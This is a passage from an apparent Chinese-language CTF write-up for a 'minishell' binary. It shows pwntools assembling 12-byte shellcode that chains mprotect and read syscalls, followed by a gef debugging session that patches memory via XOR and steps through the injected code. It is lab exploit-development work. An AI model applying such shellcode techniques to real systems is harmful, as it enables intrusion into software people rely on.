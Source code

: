 ```python
In [54]: a = pwn.asm('mov al, 10; mov dl, 7; syscall; push rdi; pop rsi; push rax; pop rdi; syscall'); a, len(a)
Out[54]: ('\xb0\n\xb2\x07\x0f\x05W^P_\x0f\x05', 12)
In [57]: a = pwn.asm('mov al, 10; mov dl, 7; syscall; push rdi; pop rsi; push rax; pop rdi; syscall'); binascii.hexlify(a), len(a)
Out[57]: ('b00ab2070f05575e505f0f05', 12)
```
還最後一個`jmp rdi`沒有空間。

仔細觀察mprotect返回時寄存器的狀態：
```gdb
$ gdb ./minishell
gef➤  b *0x555555554cd9
Breakpoint 1 at 0x555555554cd9
gef➤  r
Starting program: /home/lj/download/minishell
So what? 1
Executing...!

gef➤  n
0x0000555555554cde in ?? ()
   0x555555554cd0                  add    BYTE PTR [rsi+0x1000], bh
   0x555555554cd6                  mov    rdi, rax
   0x555555554cd9                  call   0x555555554980 <mprotect@plt>
 → 0x555555554cde                  jmp    QWORD PTR [rbp-0x8]
   0x555555554ce1                  mov    eax, 0x0
   0x555555554ce6                  leave
   0x555555554ce7                  ret
   0x555555554ce8                  nop    DWORD PTR [rax+rax*1+0x0]
   0x555555554cf0                  push   r15
gef➤  xor-memory display 0x00007ffff7fcf000 12 8100b20f0f05575e505f0f05
[+] Displaying XOR-ing 0x7ffff7fcf000-0x7ffff7fcf00c with '8100b20f0f05575e505f0f05'
── Original block ───────────────────────────────────────────────────────────────────
0x00007ffff7fcf000     31 0a 00 00 00 00 00 00 00 00 00 00    1...........
─── XOR-ed block ────────────────────────────────────────────────────────────────────
0x00007ffff7fcf000     b0 0a b2 07 0f 05 57 5e 50 5f 0f 05    ......W^P_..
gef➤  xor-memory patch 0x00007ffff7fcf000 12 8100b2070f05575e505f0f05
[+] Patching XOR-ing 0x7ffff7fcf000-0x7ffff7fcf00c with '8100b2070f05575e505f0f05'
gef➤  n
 → 0x7ffff7fcf000                  mov    al, 0xa
   0x7ffff7fcf002                  mov    dl, 0xf
   0x7ffff7fcf004                  syscall
   0x7ffff7fcf006                  push   rdi
   0x7ffff7fcf007                  pop    rsi
   0x7ffff7fcf008                  push   rax
gef➤  n
 → 0x7ffff7fcf002                  mov    dl, 0xf
   0x7ffff7fcf004                  syscall
   0x7ffff7fcf006                  push   rdi
   0x7ffff7fcf007                  pop    rsi
   0x7ffff7fcf008                  push   rax
   0x7ffff7fcf009                  pop    rdi
gef➤  n
 → 0x7ffff7fcf004                  syscall
   0x7ffff7fcf006                  push   rdi
   0x7ffff7fcf007                  pop    rsi
   0x7ffff7fcf008                  push   rax
   0x7ffff7fcf009                  pop    rdi
   0x7ffff7fcf00a                  syscall
gef➤  n
──────────────────────────────────────────────────────────────────── registers ────
$rax   : 0x0
$rbx   : 0x0
$rcx   : 0x00007ffff7fcf006  →  0x0000050f5f505e57
```